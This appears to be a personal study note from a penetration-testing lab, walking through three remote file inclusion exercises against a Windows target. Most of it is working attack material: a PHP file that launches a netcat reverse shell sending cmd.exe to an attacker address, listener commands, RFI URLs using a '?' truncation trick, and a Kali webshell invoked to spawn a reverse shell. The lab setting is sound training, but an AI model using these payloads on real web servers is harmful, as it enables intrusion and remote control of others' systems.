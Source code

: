 9.4.4.7

# 9.4.4.7
## 9.4.4.7.1. Exploit the RFI vulnerability in the web application and get a shell.

Note: PHP apps must be configured with *allow_url_include* set to "On".

On Kali, create a file in /var/www/html called cmdshell.txt. This file will contain php code to run a netcat client that sends cmd.exe upon connection.
```plaintext
ali@kali:/var/www/html$ cat cmdshell.txt 
<?php echo exec("nc -nv 192.168.119.214 5678 -e cmd.exe"); ?>
```

Start apache
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on port 5678
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

From  Windows machine, browse to Kali's cmdshell.txt file
192.168.214.10/menu.php?file=http://192.168.119.214/cmdshell.txt
![e1bfe421b8eb82b3aa2d6a8c797408a0.png](:/76318c58b0da43a988a1bf060a45fe62)

Notice we now have a shell
![180d353a143ce988df88cc3c34531a2a.png](:/b19700a479904583844242f2226645d5)



## 9.4.4.7.2. Using **/menu2.php?file=current_menu** as a starting point, use RFI to get a shell.

Start a netcat listener on Kali
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Remember that sometimes the server will append .php to any file. Use a null byte or ? to terminate the string so that you have more flexibility in which files you use for RFI. In this case, we add a ? to menu2.php and cmdshell.txt

Browse to this site:
`http://192.168.214.10/menu2.php?file=current_menu?&file=http://192.168.119.214/cmdshell.txt?`
![6e4c1b3daa0dbab31a5cb59e86187520.png](:/339db707d9724dffad533dd300c6fa86)

Notice we now have a shell
![74cac672972b57b60322a62854512687.png](:/f1cfcf9398904071a7f735db8c95eec9)



## 9.4.4.7.3. Use one of the webshells included with Kali to get a shell on the Windows 10 target.

Copy simple.backdoor.php to web root
```plaintext
kali@kali:/var/www/html$ sudo cp /usr/share/webshells/php/simple-backdoor.php 
```

Change the extension file from .php to .txt
```plaintext
kali@kali:/var/www/html$ sudo mv simple-backdoor.php simple-backdoor.txt
```

Restart apache2
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on Kali port 5678
```plaintext
kali@kali:~$ sudo nc -lnvp 5678
listening on [any]
```

Browse to the site
http://192.168.214.10/menu.php?file=http://192.168.119.214/simple-backdoor.txt&cmd=nc+-nv+192.168.119.214+5678+-e+cmd.exe
![4eeed43611fa80171aeef6af5bc4bf12.png](:/5277992639e74044aa5185bd8a40da02)

Notice we have a shell
![a64dec96b8a226a0948c05eed6565b0a.png](:/f7560a4c71b34ec2a951c5dc61599837)







id: 677246ce020b433cad7d86f1bcd58988
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:38:59.578Z
updated_time: 2020-09-21T20:56:14.733Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:38:59.578Z
user_updated_time: 2020-09-21T20:56:14.733Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1